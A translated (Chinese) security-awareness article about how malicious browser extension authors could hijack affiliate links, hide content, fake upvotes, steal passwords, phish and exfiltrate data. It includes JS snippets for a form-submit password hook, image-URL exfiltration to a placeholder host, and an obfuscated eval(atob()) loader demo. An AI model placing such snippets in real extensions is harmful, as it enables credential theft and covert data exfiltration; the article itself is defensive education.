


# 你能信任你的浏览器扩展的作者吗？关于权限、因果报应、网络钓鱼、密码窃取和邪恶的咆哮

> 原文：<https://itnext.io/whos-the-author-of-your-browser-extensions-df339d33ea59?source=collection_archive---------3----------------------->


上周，当我更新 youtube 上的视频时，我注意到我订阅了一个我从来不愿意订阅的频道。我基本上只是关注木工、谈话、政治，当然还有科技频道，然而，我从一个最臭名昭著的 YouTubers 上获得了视频，我拒绝说出他的名字。

我在谷歌上搜索了一下，没发现什么，就退订了，然后就把它忘了。五分钟。然后我考虑到我浏览器中的任何一个扩展都很容易让我订阅那个频道，但这是偏执，是妄想，不是吗？

# 嗯，不尽然

想象一下，您安装了一个具有特定功能的扩展。将你的谷歌搜索结果访问链接从通常的紫色变成灰色。这是一个已经存在的扩展，我自己用了几年也没怎么想过。



Chrome 的许可对话框示例

它需要的最低权限是这个图像上的权限，它需要*读取*和*更改*我访问的所有网站的日期，假设它可以被限制在谷歌域，这不会引发任何警报，你只需安装。

然而，通过在你的浏览器中安装一个扩展，你就允许了任意代码的执行，并且为扩展的作者打开了做他们想做的任何事情的大门和窗口。

# 比如什么？

这个扩展可以做它承诺的事情，它可以做得很好，它可以得到极好的支持和评论。这并不意味着它没有在幕后做其他事情。

## 附属链接 hijaking

作者可以寻找有代销商标签的链接，并用他们自己的代销商 id 来改变它们。这不会在 networks 选项卡中留下任何痕迹，因为我们不是与外界对话，而是修改链接的 url 以指向不同的标签。这不会伤害你，但会伤害依赖代销商收入的人。好吧，我说太快了不会伤害你…你还能相信链接吗？你能相信内容吗？

## 内容修改，拒绝行动

通过一些正则表达式和规则，作者可以编写一个脚本，隐藏你正在访问的页面中包含某个单词的部分，这在恶意软件早期是一个经典。你有你的病毒，试图寻找答案，你的浏览器会自动关闭，甚至强迫重启，如果你试图做某些任务。

我认为这是那个的浏览器版本。当然，我们不能尽可能容易地用`close()`关闭标签页，但是稍微调整一下页面的一般行为，比方说，我们接管所有链接的访问权，并以编程方式打开标签页……现在，如果我们不喜欢它们加载的内容，我们可以关闭它们，这对作者来说不是很好吗？

> 请注意，我提供的所有示例都没有依赖关系，都是普通的旧 JS，人们可以很容易地在它们的扩展中添加一个框架，并且只需一小部分代码就可以完成。

关于内容的隐藏部分，我觉得比较有意思，也很简单。下面的代码片段将隐藏谷歌搜索中包含单词 panda 的所有结果，潜在地将寻求帮助的用户引向其他品牌。你知道我在说什么。

```
document.querySelectorAll(“.ads-ad,.g”)
.forEach(
     e=>RegExp(/panda/gi).test(e.textContent)
     &&(e.style.display = ‘none’)
)
```

## 喜欢，鼓掌，分享模仿

作者可以让人们喜欢视频/帖子/评论，或者不喜欢它们，甚至不明显，想象一下我说的是 Reddit。作者可以挂钩到您的 upvotes，在投票通过之前，更改父元素上的帖子 id，这样您实际上是在对其他内容进行 upvoting。这可能导致帖子到达 frontpage 或非法获得更多的可见性。见鬼，作者甚至可以让你为这个故事鼓掌，而你自己却没有意识到。


我从来没有点击过 like 链接，是我写的一个扩展帮我点击的

然而，这个有一个简单的解决方案，如果事件没有`isTrusted`标志，它就拒绝一个交互。[阅读文档。](https://developer.mozilla.org/en/docs/Web/API/Event/isTrusted)有点像中号。尝试从代码上的脚本中触发一个点击事件，它将什么也不做。据我所知，这不可能是假的，不应该有需要从代码中模拟用户动作的事件。

> 如果你发现自己通过编程触发点击来执行某些功能，那你就做错了。

## 密码窃取

作者可以钩入表单提交，并从您的眼皮底下提取密码，您的密码和您的登录名，当然还有您试图访问的网站。对于这个片段，我假设一个表单有一个特定的 id，但是这个扩展可以做的事情没有任何限制。

```
//Really, it's that simple
var d = document;
d.querySelector("#signin_form")
 .addEventListener("submit", function(e){
    console.log(d.querySelector("input[type='password']").value)
});
```

不仅如此，不仅仅是你的 twitter 账户的密码，你传递的所有数据，你读取的所有数据。当你在亚马逊上添加信用卡时。嘿，是我！友好的延伸，永远存在，永远期待！

## 广告替换、网络钓鱼等

作者可以用他们自己的网站替换广告，获得广告收入，用钓鱼网站替换合法网站(例如你的银行)上的链接，这样当你登录时你就不再安全了。



请注意浏览器左下角被替换的 URL

然后，正如钓鱼网站通常所做的那样，他们假装登录失败，然后将您重定向回真实的网站。然后，作者将您的设备标记为“被盗”，它将不再重定向您到那里，后续访问将无缝工作，但您的凭据会受到影响。

我知道我把这看得太简单了，因为你现在应该已经在所有东西上启用了 2FA，但是你有吗？您的所有登录都需要 SMS、OTP 或类似工具吗？

## 非法数据收集

向随机服务器发送数据可能太明显，容易被发现，但是作者可以在 dom 中插入一个不可见的图像，并通过图像源上的 [URL 参数](https://en.wikipedia.org/wiki/Query_string)传递数据。

```
var el = document.createElement('img');
el.src = "https://myserver.com?yourdataencoded
```

虽然这出现在“网络”选项卡上，但它并没有显示在“XHR”选项卡上，而“图像”选项卡上则显示了您所期望的传出/传入数据，即使作者在该调用中传递了您的数据。当然，这意味着全局 XHR 断点也不会由此触发。

一个更高级的技术是隐藏 URL 中提取的数据，但同时**为用户返回一些有明显价值的东西，**一个图标，一种字体。它可以根据 GET 请求将数据*推出*。

从`http://harm.less/dXNlcm5hbWU6cGFzc3dvcmQ/image.png`获取一个图像，不管中间的字符串是你的用户名还是密码，它都是一个图像。将数据分成多次调用，甚至是几天，从多个页面。该扩展可以从第二个选项卡中获取它收集的共享数据的图像，利用新页面加载的优势，在那里注入调用，祝你在第二十个 reddit 选项卡中找到它。

这是假设您甚至在选项卡仍然打开时发送数据，作者可以挂钩到选项卡的`onRemoved`事件并从那里发送数据。你很高兴，因为扩展没有做任何可疑的事情，就在你放松警惕的时候，它启动了。

# 但是这个扩展被很多人使用和信任！

今年早些时候，有一个新的大玩家被抓到窃取用户信息，这个玩家很时尚，允许你在页面上添加 css 样式来定制你的浏览体验。据报道，这影响了 200 多万用户，该扩展获得了极好的评论，因为它的工作做得很好。收集的数据应该是“非个人的”,但是，正如罗伯特·希顿在他写的关于他发现的文章中所指出的那样。)你所有的浏览器历史。

你可能会认为，仅仅知道你访问的网址并不能准确地联系到你是谁，但让我引用他的话，如果你还没有读过这篇文章，一定要读一读，他提出了非常好的观点。

> SimilarWeb 隐私政策规定他们只收集“非个人”数据，我假设这在技术上是正确的。但是意外还是会发生。当你不知不觉地将你的个人数据委托给 SimilarWeb 这样的公司时，你不仅要希望他们没有积极的恶意(除了他们定价页面上列出的那些)。你还必须希望他们有良好的数据访问控制，没有流氓雇员，足够强大的安全性，以防止他们的所有数据(以前是你的数据)被盗。更糟糕的是，即使窃取名义上匿名的网址列表也有重大的隐私和安全隐患。使用 IP 地址和用户浏览历史的细节来消除匿名通常很简单。你认为拜访`https://www.linkedin.com/in/robertjheaton/edit`的人可能是谁？[](https://robertheaton.com/2018/07/02/stylish-browser-extension-steals-your-internet-history/)

# 但如果他们这么做，我会知道的

**你**会吧？**如果你花点时间监控浏览器内部的网络呼叫，注意到有东西去了错误的地方，有可疑的东西，你** *可能知道*，但大多数人不会知道。想象一下，数百万用户拥有从广告拦截、社交媒体风格通知、你最喜欢的体育比赛结果、生产力扩展等任何功能的扩展。

即使你有能力在查看时识别奇怪的行为，这并不意味着扩展不能比你快一步，在你没有查看的时候完成，只有在开发人员工具没有打开，或者页面已经空闲了一段时间的情况下才这样做。

[还记得 David Gilbertson 虚构的帖子](https://hackernoon.com/im-harvesting-credit-card-numbers-and-passwords-from-your-site-here-s-how-9a8cb347c5b5)关于他如何通过他开发的一个看似无害的 NPM 软件包在网站中注入代码，并将代码注入页面后，他基本上可以做我在这里所说的事情。

他确实提到 Chrome 扩展非常受限，也许我遗漏了什么...

# 您可以访问扩展的源代码

这是一个不太为人所知的伟大事实，但是你可以打开一个扩展，看看它是由什么组成的，但是这只能让你到此为止。阅读源代码只有在源代码不模糊的情况下才有用，因为你的每一个想法作者都有解决方案，所以你看不到他是怎么做的。

您可以通过搜索 IP 地址或域来查找传出的通信，但这些地址或域可以加密，然后解密，代码可以在源代码中不存在的情况下进行评估。对大多数人来说，你可以用不显眼的方式把合法代码和邪恶代码混在一起。

```
var conf;
var el = _=>Object.keys(conf);
conf = {
    eate : document.querySelectorAll("h1"),
    e : 1,
    lav : 5,
    tob : "xlcnQoJ2hlbGxvJyk=",
    color: target=>target.style.color="#F00",
    YW : a=>el()[2].split('').reverse().join('')
}
this[el()[1]+conf.YW()](this[`a`+el()[3]]
(!conf.eate.forEach(conf.color)&&(el()[5]+conf.tob)))
```

不要太深入，有一些迹象表明有猫腻，但是将其与任何最小化的 javascript 文件进行比较，应该不会有太大的不同。

执行代码将使页面中的所有 H1 元素变成红色，这就是我们的扩展在这个场景中所做的。与此同时，尽管它正在执行一个提示`hello`。明眼人都知道，`tob`属性有一个`Base64`字符串的一部分，它与`conf`对象的第五个键连接，给我们`YWxlcnQoJ2hlbGxvJyk=`，当用`atob`解码时，给我们`alert('hello')`。

你说`atob`叫哪里？就在那里！因为`this[`a`+el()[3]`从我们的全局窗口对象返回`atob`函数。然后我们简单地用一个好的旧`eval`评估代码，它也隐藏在调用`YW`函数时反转的键`lav`中，并添加到第二个键`e`中，再次来自全局窗口对象。

```
window["eval"](window["atob"]("YWxlcnQoJ2hlbGxvJyk="))
//equivalent to simply saying
alert('hello')
```

致力于隐藏他们所做的事情的人会比这更深入，我只是花了几分钟，并试图让它在合理的范围内可读。想出一个隐藏机制要比逆向工程容易一百万倍，甚至可以访问代码。前面的例子非常简洁，但是想象一下，恶意代码部分在一个 17000 行的 JS 文件中，分布在数百个函数中，这些函数在不同的作用域中递归地使用相同的名字调用自己…你会发疯的。

# 你该怎么办？

与任何其他来源的软件一样，无论是你电脑上的应用程序，还是你手机上的应用程序，扩展，插件或其他什么…避免盗版和破解软件。只从可信来源获取软件，有点偏执。在你的互联网生态系统中，只需要一个邪恶的参与者，其他人的诚实是没有意义的。我喜欢像看待自己的身体一样看待我的设备，努力保持清洁，不要把垃圾放在里面，定期检查。

:)